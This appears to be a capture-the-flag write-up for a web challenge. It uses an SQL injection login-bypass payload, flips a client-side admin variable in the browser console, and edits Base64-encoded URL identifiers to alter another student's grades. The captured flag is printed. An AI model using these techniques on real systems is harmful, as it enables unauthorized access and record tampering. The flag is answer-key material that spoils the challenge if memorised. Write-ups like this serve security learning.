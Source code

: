  OSU CTF - Web Challenge 
 Challenge Overview  

- Challenge Name: Trivial  
- Category: Web  
- Difficulty: Moderate  
- Objective: Exploit a vulnerable web application to gain admin privileges and retrieve the flag.  

 Initial Steps
I started by attempting an SQL injection on the login page using the following payload:
```sql
Admin' or 1=1--
```
This allowed me to bypass authentication and gain access to the dashboard.

 Inspecting JavaScript Files
Next, I inspected the JavaScript files in the application by opening the browser’s Developer Tools. I looked for unlinked routes and hidden functionalities within the code.

One particular JavaScript file, `/assets/js/app.min.js`, caught my attention. It contained the following script:
```javascript
(function (s, objectName) {
  setupLinks = function () {
    if (s.admin) {
      var sl = document.getElementsByClassName('student-link');
      for (i = 0; i < sl.length; i++) {
        let name = sl[i].innerHTML;
        sl[i].style.cursor = 'pointer';
        sl[i].addEventListener('click', function () {
          window.location = '/update-' + objectName + '/' + this.dataset.id;
        });
      }
    }
  };
  updateForm = function () {
    var submitButton = document.getElementsByClassName('update-record');
    if (submitButton.length === 1) {
      submitButton[0].addEventListener('click', function () {
        var english = document.getElementById('english');
        english = english.options[english.selectedIndex].value;
        var science = document.getElementById('science');
        science = science.options[science.selectedIndex].value;
        var maths = document.getElementById('maths');
        maths = maths.options[maths.selectedIndex].value;
        var grades = new Set(['A', 'B', 'C', 'D', 'E', 'F']);
        if (grades.has(english) && grades.has(science) && grades.has(maths)) {
          document.getElementById('student-form').submit();
        } else {
          alert('Grades should only be between A - F');
        }
      });
    }
  };
  setupLinks();
  updateForm();
}) (staff, 'student');
```

 Exploiting the `s.admin` Variable
I noticed the variable `s.admin`, which seemed to control access to certain functionalities. By checking its value in the console:
```javascript
console.log(s.admin);
```
I found that it returned `false`. I then manually set it to `true`:
```javascript
console.log(window.staff.admin);
staff.admin = true;
setupLinks();
```
![Screenshot (5)](https://github.com/user-attachments/assets/26e6016e-3884-475a-b3d6-928d564a30b7)


Now, I was able to click on student names.

 Finding the Encoded String
Clicking on a student’s name (e.g., ‘Brett, Nancie’) redirected me to:
```
/update-student/TmFuY2llX0JyZXR0
```
The random string at the end looked suspicious. I used [hashes.com](https://hashes.com/en/tools/hash_identifier) to identify it and found that it was Base64 encoded. Decoding it revealed:
```
Nancie_Brett
```

 Modifying the Request
I replaced `Nancie_Brett` with `Natasha_Drew`, encoded it in Base64, and updated the URL to:
```
/update-student/TmF0YXNoYV9EcmV3
```
I then changed all scores to ‘A’ and clicked on `Update Record`.

 Capturing the Flag 
Flag : *FLAG^f91b0d22ed751f02a7ebd81acc0411163949204eaf6a786c9581f29d8a5ec41c$FLAGS 

After updating the record, the flag popped up, marking the successful completion of the challenge!

![Screenshot 2025-02-17 224635](https://github.com/user-attachments/assets/b892f777-94b1-465f-a0c6-06b24058696e)


